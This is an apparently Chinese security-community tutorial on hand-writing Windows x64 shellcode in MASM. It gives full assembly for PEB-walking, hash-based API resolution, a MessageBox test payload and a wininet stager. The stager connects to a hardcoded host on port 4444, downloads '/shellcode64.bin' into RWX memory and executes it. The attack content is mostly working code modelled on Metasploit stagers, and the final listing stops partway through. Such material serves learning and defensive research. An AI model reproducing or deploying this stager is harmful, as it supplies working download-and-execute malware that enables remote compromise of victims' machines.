# Windows Shellcode开发（x64 stager）-先知社区

> **来源**: https://xz.aliyun.com/news/17961  
> **文章ID**: 17961

---

随着Windows操作系统的不断演进，x64架构的广泛应用，掌握x64环境下Shellcode的开发技术变得尤为重要。本文将深入剖析Windows x64 Shellcode开发的关键技术点，从基础的弹窗示例到复杂的网络通信模块，结合实战代码示例，为读者呈现一套完整的开发思路与实现方法。

⚠**注意**：x64编写shellcode，最重要的就是RSP**对齐对齐对齐对齐对齐对齐！**

# 一、弹窗shellcode

## 1.1 环境配置

在本小节会重点介绍 `GetProcAddressByHash` x64的实现，其实大致的过程是类似x86的，只是涉及到PE和PEB时的偏移量会不同，还有一个不同点就是：我们可以用的通用寄存器非常多，一定要关注调用前后值不变和变的寄存器。

我用的环境是Visual Studio+ml64+link，按道理来说只要你安装了相应平台工具集会自带这些工具套件，不必额外安装，如果想用nasm汇编的另说。



接下来我们创建一个C++控制台应用



创建好后，右键项目->生成依赖项->生成自定义



点击勾选masm，然后确定即可



接下来给项目添加一个shellcode.asm文件即可



无论是debug还是release都需要配置入口点



在release下需要在命令行设置 `/SAFESEH:NO`



## 1.2 GetProcAddressByHash

编写纯独立shellcode，最大的难题是如何不依赖导入表获取函数的地址，为了解决这个大问题，不得不又请出我们的两位老朋友——PEB和PE文件结构。想必各位师傅也知道我要干什么了，无非就是

1. **获取PEB的地址**：从gs/fs寄存器中获取PEB的地址
2. **遍历加载的模块列表**：从PEB中访问 `Ldr` 成员，获取 `PEB_LDR_DATA` 结构。遍历InMemoryOrderModuleList链表，获取每个模块的LDR\_DATA\_TABLE\_ENTRY。
3. **查找目标DLL（如kernel32.dll）**：比较每个模块的BaseDllName与目标DLL名称（不区分大小写）
4. **解析目标DLL的导出表**：从DLL基地址获取PE头，定位导出表。遍历导出表中的函数名称，找到目标函数并计算其地址。

都快形成肌肉记忆了/(ㄒoㄒ)/，具我所知还有另一种方法可以得到ntdll.dll和kernel32.dll的基址，等我研究清楚了再水一篇文章。

代码参考这三个文件

1. **stager\_reverse\_https.asm**[[1]](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/stager/stager_reverse_https.asm)：程序的主入口点
2. **block\_api.asm**[[2]](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/block/block_api.asm)：代码通过动态解析哈希值来定位所需的API函数地址
3. **block\_reverse\_https.asm**[[3]](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/block/block_reverse_https.asm)：该汇编代码实现了一个通过HTTP下载并执行远程代码的Shellcode加载器

接下来进入分析环节

**（1）保存前4个参数到栈上，并保存rsi的值**

```
push r9
push r8
push rdx
push rcx
push rsi
```

rcx、rdx、r8、r9存储着要调用的WindowsAPI的前四个参数，且接下来各个步骤可能需要用到这四个寄存器，所以我们将其值保存到栈上。rsi的值要不要保存可以根据情况来判断。如果不保存，则main中使用到rsi来保存值可能会有数据丢失的风险。

**（2）获取 InMemoryOrderModuleList 模块链表的第一个模块结点**

```
xor rdx,rdx										; 清零
mov rdx,gs:[rdx+60h]					; 通过GS段寄存器获取PEB地址（TEB偏移0x60处）
mov rdx,[rdx+18h]							; PEB->Ldr
mov rdx,[rdx+20h]							; 第一个模块节点，也是链表InMemoryOrderModuleList的首地址
```

1. `mov rdx,gs:[rdx+60h]`：GS存放着TEB的首地址，而TEB偏移0x60的位置则是PEB结构体的指针。



2. `mov rdx,[rdx+18h]`：获取ldr指针。在PEB结构体偏移0x18则存放着 `PEB_LDR_DATA` 结构体的指针



3. `mov rdx,[rdx+20h]`：获取第一个模块结点。在 `PEB_LDR_DATA` 结构体中0x20的位置是存储着 `InLoadOrderModuleList` 模块链表的指针。第一个模块即进程本身



**（3）模块遍历**

```
next_mod:
mov rsi,[rdx+50h]                 			; 模块名称
movzx rcx,word ptr [rdx+48h]	  	; 模块名称长度
xor r8,r8                         					; 存储接下来要计算的hash
```

1. `movzx rcx,word ptr [rdx+48h]` ：此时的rdx指向InMemoryOrderLinks，而InMemoryOrderLinks与BaseDllName的偏移是0x48，而BaseDllName这个结构体如下图所示。故 `movzx rcx,word ptr [rdx+48h]` 获取的是是模块的名称的长度





⚠**注意**：  
①在Stephen Fewer的代码中获取长度是用偏移0x4a来获取的，其实两种方式都可以，用MaximumLength，以为着它将字符串末尾的多个 `00` 也算进去了，这会导致多执行几轮计算hash的步骤，导致hash值与用偏移0x48计算的hash值的不一样。

②我将Stephen Fewer代码中出现r9的地方用r8替换，然后出现r8的地方用r9替换，毕竟造轮子也喜欢搞点特殊。


2. `mov rsi,[rdx+50h]`：获取模块名称，分析的方法同上

接下来我们调式一下，来验证是否正确，在 `mov rsi,[rdx+50h]`，下一个断点，可以看到rsi确实存放着模块名称数组的首地址



**（4）计算模块hash**

看注释，不多讲

```
loop_modname:
    xor rax, rax										; 清零EAX，准备处理字符
    lodsb												; 从rSI加载一个字节到AL（自动递增rSI）
    cmp al,'a'											; 比较当前字符的ASCII值是否小于小写字母'a'(0x61)
    jl not_lowercase								; 如果字符 < 'a'，说明不是小写字母，跳转不处理
    sub al, 20h										; 若字符在'a'-'z'范围内，通过减0x20转换为大写字母（'A'-'Z'）
not_lowercase:
    ror r8d,0dh										; 对R8的低32位进行循环右移13位，不影响高32位
    add r8d,eax									; 将当前字符的ASCII值（已大写化）累加到哈希值
    dec ecx											; 字符计数器ECX减1
    jnz loop_modname						; 继续循环处理下一个字符，直到ECX减至0
    push rdx											; 将当前模块链表节点地址压栈    
    push r8											; 将计算完成的哈希值压栈存储hash值
```

1. 可以将字符串统一为大写，也可以将字符串统一为小写，目的就是大小写不敏感，因为微软在给dll命名时有时会用字母大写，有时会用小写。



2. `ror r8d,0dh` ：循环右移的位数可以自己设定，不一定要求是13位，只要保证你给的目标hash也是使用相同的手段得到即可

**（5）获取导出表**

```
mov rdx, [rdx+20h]						; 获取模块基址
mov eax, dword ptr [rdx+3ch]		; 读取PE头的RVA
add rax, rdx									; PE头VA
cmp word ptr [rax+18h],20Bh		; 检查是否为PE64文件
jne get_next_mod1							; 不是就下一个模块
mov eax, dword ptr [rax+88h]		; 获取导出表的RVA
test rax, rax									; 检查该模块是否有导出函数
jz get_next_mod1							; 没有就下一个模块
add rax, rdx									; 获取导出表的VA
push rax											; 存储导出表的地址
mov ecx, dword ptr [rax+18h]		; 按名称导出的函数数量
mov r9d, dword ptr [rax+20h]		; 函数名称字符串地址数组的RVA
add r9, rdx										; 函数名称字符串地址数组的VA
```

3. `mov rdx, [rdx+20h]`：获取模块的基址，此时rdx是指向 `InMemoryOrderLinks`，距离rdx偏移0x20的位置上是模块的基址



4. `mov eax, dword ptr [rdx+3ch]`：获取PE头RVA，从这条指令开始都是涉及PE头的操作。


5. `cmp word ptr [rax+18h],20Bh`：PE头偏移0x18的位置是Magic字段，该字段表示PE类型标识（0x20B=PE64，0x10B=PE32）



6. `mov eax, dword ptr [rax+88h]`：PE头偏移0x88的位置是DataDirectory数组首地址。DataDirectory[0].VirtualAddress表示导出表的RVA

```
typedef struct _IMAGE_OPTIONAL_HEADER64 {
    WORD        Magic;
    BYTE        MajorLinkerVersion;
    BYTE        MinorLinkerVersion;
    DWORD       SizeOfCode;
    DWORD       SizeOfInitializedData;
    DWORD       SizeOfUninitializedData;
    DWORD       AddressOfEntryPoint;
    DWORD       BaseOfCode;
    ULONGLONG   ImageBase;
    DWORD       SectionAlignment;
    DWORD       FileAlignment;
    WORD        MajorOperatingSystemVersion;
    WORD        MinorOperatingSystemVersion;
    WORD        MajorImageVersion;
    WORD        MinorImageVersion;
    WORD        MajorSubsystemVersion;
    WORD        MinorSubsystemVersion;
    DWORD       Win32VersionValue;
    DWORD       SizeOfImage;
    DWORD       SizeOfHeaders;
    DWORD       CheckSum;
    WORD        Subsystem;
    WORD        DllCharacteristics;
    ULONGLONG   SizeOfStackReserve;
    ULONGLONG   SizeOfStackCommit;
    ULONGLONG   SizeOfHeapReserve;
    ULONGLONG   SizeOfHeapCommit;
    DWORD       LoaderFlags;
    DWORD       NumberOfRvaAndSizes;
    IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES];
} IMAGE_OPTIONAL_HEADER64, *PIMAGE_OPTIONAL_HEADER64;
```

```
typedef struct _IMAGE_DATA_DIRECTORY {
    DWORD   VirtualAddress;
    DWORD   Size;
} IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;
```

7. `mov ecx, dword ptr [rax+18h]` 和 `mov r9d, dword ptr [rax+20h]`：按名称导出的函数数量和函数名称字符串地址数组的RVA

```
typedef struct _IMAGE_EXPORT_DIRECTORY {
    DWORD   Characteristics;      // 未使用，通常为0
    DWORD   TimeDateStamp;         // 时间戳（编译时间）
    WORD    MajorVersion;          // 主版本号（通常为0）
    WORD    MinorVersion;          // 次版本号（通常为0）
    DWORD   Name;                  // 模块名称的 RVA（如 "kernel32.dll"）
    DWORD   Base;                  // 导出函数的起始序号（Ordinal Base）
    DWORD   NumberOfFunctions;     // 导出函数的总数
    DWORD   NumberOfNames;         // 按名称导出的函数数量
    DWORD   AddressOfFunctions;    // 函数地址数组的 RVA
    DWORD   AddressOfNames;        // 函数名称地址数组的 RVA
    DWORD   AddressOfNameOrdinals; // 函数序号数组的 RVA
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
```

我们调式来看一下，在 `mov rdx, [rdx+20h]` 下一个断点





rax+18h处存储着0x020b，确实是PE64的`Magic`



因为第一个模块（本进程）是没有编写导出函数的，所以导出表的RVA为0，我们按F11跳出，此时程序停在 `mov rdx, [rdx+20h]`，第二个模块即ntdll.dll，可以看到一共有0x9B8个导出函数。



**（6）获取函数名**

```
get_next_func:	
test rcx, rcx									; 检查按名称导出的函数数量是否为0
jz get_next_mod							; 若所有函数已处理完，跳转至下一个模块遍历
dec rcx											; 函数计数器递减（从后向前遍历函数名数组）
mov esi, dword ptr [r9+rcx*4]		; 从末尾往前遍历，一个函数名RVA占4字节
add rsi, rdx										; 函数名RVA
xor r8, r8											; 存储接下来的函数名哈希
```

调试



**（7）计算模块 hash + 函数 hash之和**

```
loop_funcname: 
xor rax, rax										; 清零EAX，准备处理字符
lodsb												; 从rsi加载一个字节到al，rsi自增1
ror r8d,0dh										; 对当前哈希值（r8d）循环右移13位
add r8d,eax									; 将当前字符的ASCII值（al）累加到哈希值（r8d）
cmp al, ah										; 检查当前字符是否为0（字符串结束符）
jne loop_funcname						; 若字符非0，继续循环处理下一个字符
add r8,[rsp+8]								; 将之前压栈的模块哈希值（位于栈顶+8）加到当前函数哈希
cmp r8d,r10d									; r10存储目标hash
jnz get_next_func
```

解释一下 `add r8,[rsp+8]`，在这条之前，我们就已经将模块哈希值压入到了栈上，此时的rsp指向的是导出表的地址，rsp+8的位置才是模块哈希值



**（8）获取目标函数指针**

```
pop rax											; 获取之前存放的当前模块的导出表地址
mov r9d, dword ptr [rax+24h]		; 获取序号表（AddressOfNameOrdinals）的 RVA
add r9, rdx										; 序号表起始地址
mov cx, [r9+2*rcx]							; 从序号表中获取目标函数的导出索引
mov r9d, dword ptr [rax+1ch]		; 获取函数地址表（AddressOfFunctions）的 RVA
add r9, rdx										; AddressOfFunctions数组的首地址
mov eax, dword ptr [r9+4*rcx]		; 获取目标函数指针的RVA
add rax, rdx									; 获取目标函数指针的地址
```



**（9）清栈并调用目标函数**

调用顺序：main->GetProcAddressByHash->Windows API

恢复到调用前的栈空间的布局，其中之一的原因是：某些API可能有4个以上的参数，前4个参数存放在特定的寄存器，而后面的参数存放在栈上。恢复之后就需要预留32字节的影子空间，由main函数来清理，当然也可以不清理，要看情况而言。

```
finish:
pop r8												; 清除当前模块hash
pop r8												; 清除当前链表的位置
pop rsi												; 恢复RSI
pop rcx											; 恢复第一个参数
pop rdx											; 恢复第二个参数
pop r8												; 恢复第三个参数
pop r9												; 恢复第四个参数
pop r10											; 将返回地址地址存储到r10中
sub rsp, 20h									; 给前4个参数预留 4*8=32（20h）的影子空间
push r10											; 返回地址
jmp rax											; 调用目标函数
```

首先，我们要清除 `GetProcAddressByHash` 中存放在栈上的值，然后呢恢复之前存放在栈上的rsi、rcx、rdx、r8、r9的值，其中后4个寄存器是用来做Windows API的前四个参数。

其次，为了确保我们调用完目标函数后能返回到main中的下一条指令，我们需要保存原始返回地址，通过 `push r10` 和 `jmp rax` 来模拟call指令

最后呢再说一下，按照Windows x64调用约定[[4]](https://learn.microsoft.com/zh-cn/cpp/build/x64-calling-convention?view=msvc-170)要求调用者（这里的调用者是GetProcAddressByHash）为前4个参数分配32字节的影子存储区，即使参数通过寄存器传递，具体原因还请师傅们自行查阅资料了。



## 1.3 main

```
; 1.清楚反向标准，并对齐rsp
cld								; 清除方向标志，确保字符串操作方向向前
and rsp, 0FFFFFFFFFFFFFFF0h		; 将栈指针（RSP）对齐到16字节边界，满足Windows x64调用约定要求。

; 2.加载user32.dll
push 0							; 为了对齐 
mov r14,0000323372657375h		; "user32\0",或者使用下面的指令
;mov r14, '23resu'
push r14						; 字符串压栈，此时rsp指向"user32\0"字符串
mov rcx,rsp						; RCX=字符串指针
mov r10,0DEC21CCDh				; kernel32.dll+LoadLibraryA hash
call GetProcAddressByHash

; 3.调用MessageBoxA
push 0							; 为了对齐 
mov r14,0021796164656e6fh		; "oneday!\0"
push r14						; 字符串压栈，此时rsp指向"oneday!\0"字符串
mov rcx,0						; RCX=0（hWnd)
mov rdx,rsp						; RDX=0（lpText）
mov r8,0						; R8=0（lpCaption）
mov r9,0						; R9=0（uType）
mov r10,790E24F0h				; user32.dll+MessageBoxA hash
call GetProcAddressByHash

; 4.调用ExitProcess
mov rcx,0
mov r10,2E3E5B71h			    ; kernel32.dll+ExitProcess hash
   call GetProcAddressByHash
```

有几个点需要注意的是：  
① `and rsp, 0xFFFFFFFFFFFFFFF0` 这条指令的核心作用是将 **栈指针（RSP）强制对齐到16字节边界**，Windows x64调用约定[[4]](https://learn.microsoft.com/zh-cn/cpp/build/x64-calling-convention?view=msvc-170)要求调用（call）函数时，RSP在调用前必须对齐到16字节

②如果涉及到栈操作，在调用call指令之前，push指令或者pop指令必须使rsp以0结尾数，不是0结尾就要想办法对齐，比如代码中我用 `push 0` 来保证rsp按16字节对齐。不对齐会出现下图所示的异常



③还有一个字符串问题，按照Stephen Fewer的代码，他是这样表示字符串的。



我按照他的格式，栈中的字符串如下所示，好像不太符合字符串从左到右依次从低地址往高地址增长。



原因可能是他使用的nasm汇编，而我使用的是masm汇编。正确的表示应该是 `mov r14, '23resu'` 或 `mov r14,0000323372657375h`。



④按照windows X64调用约定[[4]](https://learn.microsoft.com/zh-cn/cpp/build/x64-calling-convention?view=msvc-170)，参数传递的方式有所不同，前四个参数分别使用RCX、RDX、R8和R9从左到右顺序传递，后续的参数就使用栈传递，压栈的顺序是从右到左。如

```
test64(a, b, c, d, e, f, g, h)
```

对应的汇编顺序是

```
……
mov rcx, a  ; 第一个参数
mov rdx, b  ; 第二个参数
mov r8, c   ; 第三个参数
mov r9, d   ; 第四个参数
push h      ; 第8个参数（从右向左压栈）
push g
push f
push e      ; 第五个参数
call test64
```

我这里是表示的很不严谨，实际还需要考虑影子空间和对齐，但是传参顺序就是按照上述代码进行的。

## 1.4 测试

老规矩，用010 editor提取，这一步我是建议按照我的方式进行，因为下面各个stager要下载的stage就是本例中的弹窗shellcode。



然后用 `runshc64.exe` 加载shellcode



## 1.5 完整代码

```
.code

main proc

    ; 1.清楚反向标准，并对齐rsp
    cld														; 清除方向标志，确保字符串操作方向向前
    and rsp, 0FFFFFFFFFFFFFFF0h		; 将栈指针（RSP）对齐到16字节边界，满足Windows x64调用约定要求。

    ; 2.加载user32.dll
    push 0													; 为了对齐 
    mov r14,0000323372657375h			; "user32\0",或者使用下面的指令
    ;mov r14, '23resu'
    push r14												; 字符串压栈，此时rsp指向"user32\0"字符串
    mov rcx,rsp										; RCX=字符串指针
    mov r10,0DEC21CCDh						; kernel32.dll+LoadLibraryA hash
    call GetProcAddressByHash

    ; 3.调用MessageBoxA
    push 0													; 为了对齐 
    mov r14,0021796164656e6fh			; "oneday!\0"
    push r14												; 字符串压栈，此时rsp指向"oneday!\0"字符串
    mov rcx,0											; RCX=0（hWnd)
    mov rdx,rsp										; RDX=0（lpText）
    mov r8,0												; R8=0（lpCaption）
    mov r9,0												; R9=0（uType）
    mov r10,790E24F0h							; user32.dll+MessageBoxA hash
    call GetProcAddressByHash

    ; 4.调用ExitProcess
    mov rcx,0
    mov r10,2E3E5B71h			    			; kernel32.dll+ExitProcess hash
    call GetProcAddressByHash

GetProcAddressByHash:
    
    ; 1. 保存前4个参数到栈上，并保存rsi的值
    push r9
    push r8
    push rdx
    push rcx
    push rsi

    ; 2. 获取 InMemoryOrderModuleList 模块链表的第一个模块结点
    xor rdx,rdx										; 清零
    mov rdx,gs:[rdx+60h]					; 通过GS段寄存器获取PEB地址（TEB偏移0x60处）
    mov rdx,[rdx+18h]							; PEB->Ldr
    mov rdx,[rdx+20h]							; 第一个模块节点，也是链表InMemoryOrderModuleList的首地址

    ;3.模块遍历
next_mod:
    mov rsi,[rdx+50h]                 			; 模块名称
    movzx rcx,word ptr [rdx+48h]	  	; 模块名称长度
    xor r8,r8                         					; 存储接下来要计算的hash

    ; 4.计算模块hash
loop_modname:
    xor rax, rax										; 清零EAX，准备处理字符
    lodsb												; 从rSI加载一个字节到AL（自动递增rSI）
    cmp al,'a'											; 比较当前字符的ASCII值是否小于小写字母'a'(0x61)
    jl not_lowercase								; 如果字符 < 'a'，说明不是小写字母，跳转不处理
    sub al, 20h										; 若字符在'a'-'z'范围内，通过减0x20转换为大写字母（'A'-'Z'）
not_lowercase:
    ror r8d,0dh										; 对R8的低32位进行循环右移13位，不影响高32位
    add r8d,eax									; 将当前字符的ASCII值（已大写化）累加到哈希值
    dec ecx											; 字符计数器ECX减1
    jnz loop_modname						; 继续循环处理下一个字符，直到ECX减至0
    push rdx											; 将当前模块链表节点地址压栈    
    push r8											; 将计算完成的哈希值压栈存储hash值

    ; 5.获取导出表
    mov rdx, [rdx+20h]						; 获取模块基址
    mov eax, dword ptr [rdx+3ch]		; 读取PE头的RVA
    add rax, rdx									; PE头VA
    cmp word ptr [rax+18h],20Bh		; 检查是否为PE64文件
    jne get_next_mod1							; 不是就下一个模块
    mov eax, dword ptr [rax+88h]		; 获取导出表的RVA
    test rax, rax									; 检查该模块是否有导出函数
    jz get_next_mod1							; 没有就下一个模块
    add rax, rdx									; 获取导出表的VA
    push rax											; 存储导出表的地址
    mov ecx, dword ptr [rax+18h]		; 按名称导出的函数数量
    mov r9d, dword ptr [rax+20h]		; 函数名称字符串地址数组的RVA
    add r9, rdx										; 函数名称字符串地址数组的VA

    ; 6.获取函数名	
get_next_func:	
    test rcx, rcx									; 检查按名称导出的函数数量是否为0
    jz get_next_mod							; 若所有函数已处理完，跳转至下一个模块遍历
    dec rcx											; 函数计数器递减（从后向前遍历函数名数组）
    mov esi, dword ptr [r9+rcx*4]		; 从末尾往前遍历，一个函数名RVA占4字节
    add rsi, rdx										; 函数名RVA
    xor r8, r8											; 存储接下来的函数名哈希

    ; 7.计算模块 hash + 函数 hash之和
loop_funcname: 
    xor rax, rax										; 清零EAX，准备处理字符
    lodsb												; 从rsi加载一个字节到al，rsi自增1
    ror r8d,0dh										; 对当前哈希值（r8d）循环右移13位
    add r8d,eax									; 将当前字符的ASCII值（al）累加到哈希值（r8d）
    cmp al, ah										; 检查当前字符是否为0（字符串结束符）
    jne loop_funcname						; 若字符非0，继续循环处理下一个字符
    add r8,[rsp+8]								; 将之前压栈的模块哈希值（位于栈顶+8）加到当前函数哈希
    cmp r8d,r10d									; r10存储目标hash
    jnz get_next_func

    ; 8.获取目标函数指针
    pop rax											; 获取之前存放的当前模块的导出表地址
    mov r9d, dword ptr [rax+24h]		; 获取序号表（AddressOfNameOrdinals）的 RVA
    add r9, rdx										; 序号表起始地址
    mov cx, [r9+2*rcx]							; 从序号表中获取目标函数的导出索引
    mov r9d, dword ptr [rax+1ch]		; 获取函数地址表（AddressOfFunctions）的 RVA
    add r9, rdx										; AddressOfFunctions数组的首地址
    mov eax, dword ptr [r9+4*rcx]		; 获取目标函数指针的RVA
    add rax, rdx									; 获取目标函数指针的地址

finish:
    pop r8												; 清除当前模块hash
    pop r8												; 清除当前链表的位置
    pop rsi												; 恢复RSI
    pop rcx											; 恢复第一个参数
    pop rdx											; 恢复第二个参数
    pop r8												; 恢复第三个参数
    pop r9												; 恢复第四个参数
    pop r10											; 将返回地址地址存储到r10中
    sub rsp, 20h									; 给前4个参数预留 4*8=32（20h）的影子空间
    push r10											; 返回地址
    jmp rax											; 调用目标函数

get_next_mod:                 
  pop rax                     						; 弹出栈中保存的导出表地址
get_next_mod1:                
  pop r8                      							; 弹出之前压栈的计算出来的模块哈希值
  pop rdx                    							; 弹出之前存储在当前模块在链表中的位置
  mov rdx, [rdx]              						; 获取链表的下一个模块节点（FLINK）
  jmp next_mod                					; 跳转回模块遍历循环
main endp
end
```

# 二、stager（wininet版）

详细的过程我就不介绍了，感觉写来写去还是哪些步骤，请各位师傅参考我的另一篇文章[[5]](https://xz.aliyun.com/news/17827)搭配食用

## 2.1 值得关注的点

在这里我提一下值得注意的点：

①Stephen Fewer使用的是lpszAgent非NULL，这个指针指向空字符 `""`，即无UA



我使用的是lpszAgent = NULL，使用默认的UA，即"Microsoft-WinINet"，孰优孰劣我不太清楚:）



②我使用了区别于Stephen Fewer的获取服务器ip地址的方式，我们来看一下他是怎么获取的

```
    jmp dbl_get_server_host
……
……
dbl_get_server_host:
    jmp get_server_host
……
……
get_server_host:
    call internetconnect
 server_host:
```

我感觉中间的步骤有点多余了（大佬们别喷我/(ㄒoㄒ)/），所以就改成了下面代码，还有server\_host最好定义在汇编代码的最后面，这样我们才能制作出模板shellcode，服务器地址固定在Shellcode末尾，可通过直接修改最后的字节替换IP。

```
jmp get_server_host
……
……
get_server_host:
    call internetConnectA

server_host:	
    db '192.168.1.1',0
```

③我使用了另一种获得uri的方式，区别于Stephen Fewer。我们都知道call指令的作用是下一条指令的地址到栈上，并跳转到相应位置处的代码去执行后续逻辑。

1. 我们可以利用这个特性将uri字符串定义在call指令的下面
2. 然后再让call指令跳转到httpOpenRequestA标签处的指令，然后执行后续的逻辑
3. 最后弹出存放在栈上的uri字符串地址（1次push和1次pop，刚好相互抵消，不影响rsp）





④在 `HttpOpenRequestA` 的 `dwFlags` 参数中添加 `INTERNET_FLAG_RELOAD`，强制从服务器获取最新内容（而非缓存）。好像我在x86的时候使用的是dwFlags=0，我感觉不太好，缓存影响调式程序。

⑤mian函数中，我们之前都不清零影子空间，但是这里需要清除，不然执行到execute\_stage标签的ret指令时rsp不指向缓冲区的地址，也就弹不出缓冲区的地址，当然你也可以用一个寄存器存储缓冲区的地址（推荐使用r12、r13、r14和r15等非易失性寄存器）



⑥在masm汇编中，下面红框中一定要使用rdi，而非edi。



⑦又是tm的对齐！

不知道师傅们有没有关注过红框中的代码，按道理来说push两次，再pop两次，栈上应该就没有缓冲区的地址了啊



为了搞清楚Stephen Fewer在末尾写道 `pop rax ; f*cking alignment` 的缘由，我又要调式了，我们在 `7. 调用VirtualAlloc分配可执行内存` 的 `call GetProcAddressByHash` 下一个断点，此时栈上一切正常。



F10之后再去查看栈上的情况。可以看到此时缓冲区的地址已经存放在栈上，但是我们并没有push缓冲区的地址到栈上，具体原因未知。



程序运行到 `mov rdi, rsp` ，此时栈的情况如下图所示。很明显第一个 `push rbx` 是为了对齐用的，你也可以将其换成其他的，如 `push rax`



## 2.2 测试

shellcode64.bin是在第一小节 `一、弹窗shellcode` 制作的弹窗shellcode

首先是exe形式



其次是shellcode形式



## 2.3 完整代码

```
.code

main proc

    ; 1. 清除方向标志并对齐栈指针，确保符合Windows x64调用约定
    cld														; 清除方向标志（DF=0），字符串操作向高地址进行
    and rsp, 0FFFFFFFFFFFFFFF0h		; 将RSP对齐到16字节边界，避免栈未对齐导致的异常

    ; 2. 加载wininet.dll库
    push 0													; 为了对齐
    mov r14, 'teniniw'								; 构造字符串'wininet\0'
    push r14												; 将字符串压栈，此时RSP指向"wininet\0"的地址
    mov rcx, rsp										; RCX = 字符串地址，作为LoadLibraryA的参数
    mov r10, 0DEC21CCDh						; kernel32.dll+LoadLibraryA的哈希值
    call GetProcAddressByHash

    ; 3. 调用InternetOpenA初始化WinINET
    xor rcx, rcx                   			 			; lpszAgent = NULL
    xor rdx, rdx                    						; dwAccessType = 0
    xor r8, r8                     	 					; lpszProxy = NULL
    xor r9, r9                      						; lpszProxyBypass = NULL
    push r9                         						; dwFlags = 0 
    push r9                         						; 为了对齐
    mov r10, 0363799Dh              			; wininet.dll+InternetOpenA的哈希值
    call GetProcAddressByHash
    
    jmp get_server_host            				; 跳转至设置服务器主机名的代码

    ; 4. 调用InternetConnectA连接到指定服务器
internetConnectA:                   
    pop rdx                         						; 弹出存放在栈上的目标服务器主机名地址
    mov rcx, rax                    					; hInternet = InternetOpen返回的句柄
    mov r8, 4444                    					; nServerPort = 4444（自定义端口）
    xor r9, r9                      						; lpszUsername = NULL（匿名登录）
    push r9                         						; dwContext = 0
    push r9                         						; dwFlags = 0
    push 3                          						; dwService = INTERNET_SERVICE_HTTP（HTTP服务）
    push r9                         						; lpszPassword = NULL
    mov r10, 2289ACBAh              			; wininet.dll+InternetConnectA的哈希值
    call GetProcAddressByHash

    ; 5. 调用HttpOpenRequestA创建HTTP请求
    call httpOpenRequestA           			; 调用以将返回地址压栈，后续弹出URI路径
server_uri:
    db '/shellcode64.bin',0         				; 定义请求的URI路径（以空字符结尾）
httpOpenRequestA:
    mov rcx, rax                    					; hConnect = InternetConnect返回的句柄
    xor rdx, rdx                    						; lpszVerb = NULL（使用默认"GET"方法）
    pop r8                          						; 弹出URI路径地址到R8（lpszObjectName）
    xor r9, r9                      						; lpszVersion = NULL（默认HTTP/1.1）
    push r9                         						; dwContext = 0 
    push 80000000h                  				; dwFlags = INTERNET_FLAG_RELOAD（强制重新下载）
    push r9                         						; *lplpszAcceptTypes
    push r9                         						; lpszReferrer = NULL
    mov r10, 9718794Eh              			; wininet.dll+HttpOpenRequestA的哈希值
    call GetProcAddressByHash
    mov rsi, rax                    						; 保存请求句柄到RSI备用

    ; 6. 调用HttpSendRequestA发送HTTP请求
    mov rcx, rsi                    						; hRequest = HttpOpenRequest返回的句柄
    xor rdx, rdx                    						; lpszHeaders = NULL（无额外头）
    xor r8, r8                      						; dwHeadersLength = 0
    xor r9, r9                      						; lpvOptional = NULL（无附加数据）
    push r9                         						; dwOptionalLength = 0
    push r9                         						; 为了对齐
    mov r10, 0D7022990h             			; wininet.dll+HttpSendRequestA的哈希值
    call GetProcAddressByHash
    test eax, eax                   					; 检查返回值（成功返回非零）
    jz failure                      						; 失败则跳转至错误处理

    ; 7. 调用VirtualAlloc分配可执行内存
    xor rcx, rcx                    						; lpAddress = NULL（由系统选择地址）
    mov rdx, 00400000h              			; dwSize = 4MB（分配内存大小）
    mov r8, 1000h                   					; flAllocationType = MEM_COMMIT（提交物理内存）
    mov r9, 40h                     					; flProtect = PAGE_EXECUTE_READWRITE（可读可写可执行）
    mov r10, 0BCEF49D9h             			; kernel32.dll+VirtualAlloc的哈希值
    call GetProcAddressByHash

    ; 8. 分段下载Shellcode到内存
download_prep:
    xchg rax, rbx                   					; 将基地址存入RBX
    push rbx                        						; 为了对齐用的
    push rbx                        						; 占位符（用于存储InternetReadFile返回的已读字节数）
    mov rdi, rsp                    					; RDI指向已读字节数变量（栈地址）

download_more:
    mov rcx, rsi                    						; hFile = Http请求句柄
    mov rdx, rbx                    					; lpBuffer = 当前写入位置
    mov r8, 8192                    					; dwNumberOfBytesToRead = 8KB（每次读取大小）
    mov r9, rdi                     						; lpdwNumberOfBytesRead = 栈上的已读字节数变量
    mov r10, 3E73B975h              			; wininet.dll+InternetReadFile的哈希值
    call GetProcAddressByHash
    add rsp, 32                     					; 清理影子空间

    test eax, eax                   					; 检查InternetReadFile返回值（成功返回1）
    jz failure                      						; 失败则跳转

    mov ax, word ptr [rdi]          				; 读取本次实际读取的字节数（低16位）
    add rbx, rax                    					; 调整缓冲区指针到下一写入位置

    test rax, rax                   						; 检查是否读取完毕（返回0字节表示结束）
    jnz download_more               			; 未结束则继续读取
    pop rax                         						; 弹出已读字节数占位符
    pop rax                         						; fucking 对齐

execute_stage:
    ret                             							; 跳转到下载的Shellcode执行

    ; 结束
failure:
    mov r10,2E3E5B71h              				; kernel32.dll+ExitProcess 哈希值
    call GetProcAddressByHash 

GetProcAddressByHash:
    
    ; 1. 保存前4个参数到栈上，并保存rsi的值
    push r9
    push r8
    push rdx
    push rcx
    push rsi

    ; 2. 获取 InMemoryOrderModuleList 模块链表的第一个模块结点
    xor rdx,rdx										; 清零
    mov rdx,gs:[rdx+60h]					; 通过GS段寄存器获取PEB地址（TEB偏移0x60处）
    mov rdx,[rdx+18h]							; PEB->Ldr
    mov rdx,[rdx+20h]							; 第一个模块节点，也是链表InMemoryOrderModuleList的首地址

    ;3.模块遍历
next_mod:
    mov rsi,[rdx+50h]                 			; 模块名称
    movzx rcx,word ptr [rdx+48h]	 	; 模块名称长度
    xor r8,r8                         					; 存储接下来要计算的hash

    ; 4.计算模块hash
loop_modname:
    xor rax, rax										; 清零EAX，准备处理字符
    lodsb												; 从rSI加载一个字节到AL（自动递增rSI）
    cmp al,'a'											; 比较当前字符的ASCII值是否小于小写字母'a'(0x61)
    jl not_lowercase								; 如果字符 < 'a'，说明不是小写字母，跳转不处理
    sub al, 20h										; 若字符在'a'-'z'范围内，通过减0x20转换为大写字母（'A'-'Z'）
not_lowercase:
